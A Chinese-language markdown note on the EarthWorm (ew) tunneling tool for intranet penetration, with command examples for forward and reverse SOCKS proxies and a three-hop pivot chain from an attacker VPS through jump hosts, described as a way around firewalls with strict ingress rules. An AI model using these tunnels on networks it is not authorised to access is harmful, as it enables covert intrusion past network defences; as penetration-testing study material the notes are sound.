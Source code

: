 ### EW

> 工具的地址： [http://rootkiter.com/EarthWorm/](http://rootkiter.com/EarthWorm/)

这是个国产的打洞神器，因为其方便的多级转发，支持反向代理等特性，在内网渗透领域可是响当当的。这里重点对这个工具做下记录，真的太强大了！

该工具共有 6 种命令格式（ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran）。下面针对官方的例子进行以下解释：

#### 正向代理

```
$ ./ew -s ssocksd -l 1080
```

开启机器的 1080 端口做正向代理，我们可以通过链接该机器的 1080 端口进行端口代理转发。一般的场景为：kali 通过 proxychain 链接开启了正向代理的公网 ip。

#### 反响代理

```
#公网ip主机A，ip假设为1.1.1.1
./ew -s rcsocks -l 1080 -e 8888 

# 目标机B
./ew -s rssocks -d 1.1.1.1 -e 8888
```

反向代理是目标机向我们发起链接请求，与正向代理是不一样的。当建立了链接后，它的代理流如下`Me<--->A<--->B`。即我只要连接 A 的 1080 端口就可以获得一条反向代理的隧道，与 B 建立连接。这种场景可以用来绕过入口策略严格但是出口策略松散的防火墙。

#### 多级转发

在前面的两个场景中，我们看到了`rcsocks`,`` `ssocksd``,`rssocks`这三个命令的使用。在多级转发中我们会见到另外三个命令的作用。他们就类似于中间件，负责隧道导流与串接。

```
#命令使用举例：
# lcx_listen 用在将本机的端口进行转发
$ ./ew -s lcx_listen -l  1080   -e 8888
# lcx_tran 将本机端口与目的ip地址的端口进行转发
$ ./ew -s lcx_tran   -l  1080   -f 2.2.2.3 -g 9999
# lcx_slave 作为奴隶，将本机直接可达的两个主机实体上的端口进行转发
$ ./ew -s lcx_slave  -d 1.1.1.1 -e 8888    -f 2.2.2.3  -g  9999
```

下面我们来看个实际渗透三级级联例子：

```
# 我们自己的VPS执行
$ ./ew -s rcsocks -l 1080 -e 8888

# 跳板机A执行
$ ./ew -s lcx_slave -d ip_A -e 8888 -f ip_B -g 9999

# 跳板机B执行
$ ./ew -s lcx_listen -l 9999 -e 7777

# 跳板机C执行
$ ./ew -s rssocks -d ip_B -e 7777
```
